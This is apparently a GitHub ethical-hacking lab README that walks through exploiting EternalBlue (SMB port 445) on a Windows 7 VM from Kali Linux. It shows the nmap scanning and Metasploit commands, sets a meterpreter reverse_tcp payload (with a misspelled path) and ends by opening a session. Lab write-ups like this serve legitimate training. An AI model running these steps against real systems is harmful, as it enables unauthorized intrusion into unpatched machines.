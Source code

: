 #  Windows-7 OS eternal-blue  #



## Operating Systems ##
- [Window 7 OS](https://www.softlay.com/downloads/windows-7-ultimate) (Target)
- [Kali Linux OS](https://www.kali.org/get-kali/#kali-platforms) (Attacker)



## Tools ##
- [Nmap](https://nmap.org/)
- [Metasploit Framework](https://www.metasploit.com/)



## Intro ##
<p align="justify">To complete this lab, you will require Kali Linux as the attacker system and Windows 7 as the target system. I have provided links above where you can download the necessary operating systems and tools. If you're unsure about how to install Kali Linux or Windows 7 as virtual machines, or if you encounter any issues with the tools, you can refer to the guides available on the following websites that I will describe below.</p>

- [Installing Kali Linux in Virtual Box](https://www.youtube.com/watch?v=MPkni85O9JA)
- [Installing Windows 7 in Virtual Box](https://www.youtube.com/watch?v=qc3tatME9k4)
- [Installing Nmap in Kali Linux](https://www.youtube.com/watch?v=UztKA63rmL0)



### Step 1 ###
<p align="justify">After obtaining both Kali Linux and Windows 7, it is necessary to configure their network settings to be on the same network.</p>



### Step 2 ###
<p align="justify">In step two, you must disable the Windows 7 firewall to access the target system. Without disabling the firewall, the ports required for access will remain closed.</p>

1. Click Control Panel from the search results.
1. Select System and Security.
1. Click Windows Defender Firewall.
1. Click the Turn Windows Defender Firewall on or off option.
1. Click the Turn off Windows Defender Firewall

<p align="center"><img src="https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/2da2842c-b88b-4718-a795-d57290a00010" width="450px" height="300px"><br>Figure(1) Firewall Off!</p>



### Step 3 (Ping) ###
<p align="justify">Before we begin exploiting, it's important to ensure that both systems are connected or in the same network. </p>

```
ping [TARGET IP]
```

![ping](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/6b04ea71-1682-44bc-840c-4e08d07126b0)



### Step 4 (Scanning) ###
<p align="justify">If the target system is on our network, we can scan its open ports using its IP address. I use Nmap for vulnerability scanning.</p>

- -A : For all types of scans, such as OS detection, version of services detection, and traceroute.

```
nmap -A -Pn [TARGET IP]
```

If you're looking to learn the basics of Namp, you can find them [here](https://www.youtube.com/watch?v=5MTZdN9TEO4).

![nmap](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/bd2950a8-1882-4651-84f6-78eb3eea345e)



### Step 5 (Metasploit) ###
<p align="justify">After the scanning process, you will notice that several ports are opening. It is important to pay attention to Port 445, which is also known as the server message block (SMB). This port enables devices on the same network to communicate with each other and share files or other resources. By exploiting the vulnerability of this service, we can gain access to the target system. Therefore, we will use Metasploit for this purpose. We can use EternalBlue if there is a vulnerability of port 445 on a Windows.</p>

```
msfconsole
```

<p align="justify">Next, look for the Eternal-Blue and use it.</p>

```
search eternalblue
```

```
use 0
```

![Msfconsole](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/a53895bf-addc-4ff5-8946-5617cdced1ef)



### Step 6 (Payload) ###
<p align="justify">Now we need to set the payload, but it's not necessary for this exploit. We can use it or not, depending on our preference.</p>

```
set payload window/x64/meterpreter/reverse_tcp
```

![payload](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/81c37fbc-e687-46ad-ba12-093d07f08ff5)



### Step 7 (Options) ###
<p align="justify">We need to consult the available options to determine what modifications are necessary.</p>

```
show options
```

![options](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/a4cdc84f-16c8-4f69-8880-7970944c16d2)



### Step 8 (Getting Access) ###
<p align="justify">In options, RHOSTS refers to the IP address of the target system, and RPORT refers to the vulnerable port we are going to exploit on the target. RPORT has already been added. We only need to add the target's IP in RHOSTS.</p>

```
set rhosts [TARGET IP]
```

Then,

```
run
```

![run](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/0fe9b253-5713-4d8b-830f-3041fb3fc5f0)



### Result ###
<p align="justify">After a few seconds of waiting, we were able to access the target system. We can request help to determine our next steps.</p>

```
help
```

![help](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/7519d863-d454-4657-ac32-1d69ae72fd50)

<br>

<p align="justify">There are many options that we can do in the meterpreter session. For example, we can type ipconfig or ifconfig to see the network config setting of the system.</p>

```
ipconfig
```

Or,

```
ifconfig
```

![ipconfig](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/1d8fcb95-2875-4078-97bc-a4e86d450ff1)

### Practice sessions have come to an end.  I hope you enjoyed them. See you next Sunday for our next session ###
